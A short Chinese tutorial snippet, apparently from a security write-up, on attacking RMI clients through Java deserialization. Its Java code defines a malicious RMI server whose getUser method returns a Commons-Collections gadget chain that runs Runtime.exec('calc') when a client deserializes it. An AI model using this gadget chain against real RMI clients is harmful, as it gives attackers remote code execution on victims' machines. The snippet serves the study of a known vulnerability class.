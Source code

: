 当服务端返回一个Object对象给客户端的时候，客户端会对这个Object对象反序列化，当远程调用某个方法的时候，返回的是一个Object对象

接口

```
package RMIunser;

import java.rmi.Remote;

public interface User extends Remote {
    public Object getUser() throws Exception;
}
```

实现类（在这里面重写getUser）

```
package RMIunser;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.Map;

public class LocalUser extends UnicastRemoteObject implements User  {

    public LocalUser() throws RemoteException {
        super();
    }

    public Object getUser() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "key");
        Map outmap = TransformedMap.decorate(innermap, null, chain);

        Class T0WN = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = T0WN.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class, outmap);

        return instance;
    }
}
```
